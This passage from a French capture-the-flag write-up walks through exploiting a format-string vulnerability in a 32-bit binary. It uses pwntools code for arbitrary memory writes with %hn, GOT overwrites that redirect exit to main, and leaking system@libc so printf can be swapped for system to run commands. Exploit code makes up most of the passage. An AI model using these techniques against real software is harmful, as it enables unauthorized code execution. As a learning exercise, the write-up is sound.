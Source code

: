 On peut maintenant écrire une fonction de write_what_where et écrire l'adresse du call à la fonction "**flag2**" à l'adresse de "**exit**"

```python
def write_what_where(what, where, offset, junk=b""):
   return junk+pack(where)+"%{}x%{}$hn".format(what-len(junk)-4 ,offset).encode()

send_payload(write_what_where(0x99a6, 0x804c02c, OFFSET, JUNK), True)
```

![](/static/sthack2021/beers-and-flags/upload_659ac74cb3e64eeaa54c1243a32d78bf.png)

## Partie 3 - Obtention d'un shell

Le binaire est disponible pour cette partie : [beersandflags_4](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/beersandflags_4)

Pour obtenir un shell, il va falloir envoyer plusieurs payloads. Pour ce faire, il va falloir faire en sorte que le binaire passe plusieurs fois par la fonction printf vulnérable. On peut par exemple replacer l'adresse de la fonction "**exit**" par l'adresse de la fonction "**main**". De cette manière, au lieu de quitter, le programme va redémarrer, mais en gardant l'état de nos modifications.

Contrairement aux autres parties, nous allons devoir réutiliser la même instance du binaire, il va falloir modifier la fonction "**send_payload**"

```python
def send_payload(r, payload, interactive=False):
    r.recvuntil(b'guess the 4 digit number:\n')
    ...
```

Notre début de script peut donc être:

```python
def get_remote():
    return remote('localhost', 1234, level='error')
    
r = get_remote()
send_payload(r, write_what_where(0x99d1, 0x804c02c, OFFSET, JUNK))
```

Pour exécuter une commande, on peut remplacer "**printf@libc**"" par "**system@libc**". De cette manière, quand nous accèderons au scoreboard, nous pourrons mettre la commande de notre choix et cette commande sera exécutée. Par contre, tous les appels à printf vont aussi déclencher un appel à system ce qui va créer pas mal d'erreur dans notre output.

Il faut d'abord récupérer l'adresse de "**system@libc". Dans la GOT, c'est l'adresse `0x804c028`

```python
system_libc = unpack(memleak(r, OFFSET, JUNK, 0x804c028)[:4])
log.info("system@libc: "+hex(system_libc))
```

Nous allons modifier notre fonction *write_what_where* pour supporter des écritures d'adresses plus longues.

```python
def write_what_where(what, where, offset, junk=b""):
    if what < 65535:
        return junk+pack(where)+"%{}x%{}$hn".format(what-len(junk)-4 ,offset).encode()
    else:
        first = what % 0x10000
        second = int(what / 0x10000)
        payload = junk+pack(where)+pack(where+2)
        len_payload = len(payload)
        payload += "%{}x%{}$hn".format(first-len_payload, str(offset))
        second_len = second-first if first < second else 0x10000-first+second
        payload += "%{}x%{}$hn".format(second_len, str(offset+1))
        return payload
```
